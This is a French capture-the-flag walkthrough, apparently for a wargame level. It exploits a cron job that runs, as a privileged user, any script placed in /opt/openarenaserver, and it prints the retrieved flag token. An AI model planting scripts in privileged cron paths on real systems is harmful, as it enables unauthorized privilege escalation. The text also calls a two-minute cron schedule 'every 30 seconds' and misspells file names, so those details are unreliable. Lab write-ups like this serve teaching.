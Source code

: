 Dès qu'on se connecte au level05, une notification apparaît:
<pre><code>You have new mail.</code></pre>

On fait un **cat** du mail reçu, qui se situe dans <code>/var/mail/level05</code> :
<pre><code>> cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
</code></pre>

Il s'agit d'une tâche **cron** dont le format est le suivant:
<pre>
*/2	*	*	*	*
minute	hour	day	month	day
</pre>
> Donc toutes les 30 secondes la tâche: <code>su -c 'sh /usr/sbin/openarenaserver"</code> va s'exécuter

On **cat** le fichier <code>/usr/sbin/openarenaserve</code>, ce qui nous donne:
```sh
#!/bin/sh
for i in /opt/openarenaserver/* ; do 
# Pour chaque fichier dans le dossier
		(ulimit -t 5; bash -x "$i")	 
		# Avec un interval de 5 sc, executer le fichier
		rm -f "$i"					 
		# Supprimer le fichier
done
```

L'idée est de créer un fichier que l'on va mettre dans le dossier <code>/opt/openarenaserver/</code> afin qu'il s'exéctue dès que la tâche **cron** s'active:
<pre><code>echo "getflag > /tmp/token" > /tmp/getflag.sh
mv /tmp/getflag.sh /opt/openarenaserver/getflash.sh
</code></pre>
> On stocke dans <code>/tmp/token</code> le resultat car **cron** s'effectue en background et n'affiche pas de message


Il nous suffit de faire des **ls** de <code>/opt/openarenaserver/</code> et d'attendre que le ficher <code>/tmp/getflag.sh</code> se fasse supprimer pour savoir quand la tâche a été effectuée, ainsi il ne nous reste plus qu'a récuperer le flag:
<pre><code>> cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
</code></pre>